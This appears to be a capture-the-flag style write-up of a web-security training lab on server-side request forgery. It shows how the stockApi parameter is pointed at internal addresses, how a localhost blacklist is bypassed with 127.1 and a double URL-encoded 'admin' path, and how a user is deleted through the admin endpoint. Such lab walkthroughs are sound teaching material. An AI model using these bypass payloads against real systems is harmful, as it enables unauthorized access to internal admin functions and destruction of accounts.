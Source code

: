 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 4
---
```



Let's check out the stock.

![[2 105.png]]

We can intercept the request using Burpsuite.

![[3 83.png]]

Let's send the request to the `Repeater`.
We can set the `stockApi` field to the following and send the request:

```
http://localhost/admin
```

![[4 70.png]]

So that request is blocked.
Let's send the following request:

```
http://127.1/
```


That returns a valid response.

Let's try visiting the `/admin` page.

```
http://127.1/admin
```

![7](https://github.com/Knign/Write-ups/assets/110326359/633f6f33-c540-4095-82c3-d85daef9a2db)

Looks like the `admin` keyword is being pattern-matched and blocked.
We can get around it by double URL encoding the string.

![10](https://github.com/Knign/Write-ups/assets/110326359/0e9aa7c9-05f8-419d-b4a2-5a5ea6c13a4e)

Let's now send the following request:

```
http://127.1/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65
```

![9](https://github.com/Knign/Write-ups/assets/110326359/099a7a29-fd61-4e3b-a3f8-55fc2fd3ecc3)

We can now delete the `carlos` user.

```
http://127.1/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65/delete?username=carlos
```

![11](https://github.com/Knign/Write-ups/assets/110326359/54f70884-0935-4b68-be82-03928025b356)

We have solved the lab.

![12](https://github.com/Knign/Write-ups/assets/110326359/88b224e6-d665-415a-85a4-1ec27f3f5fae)
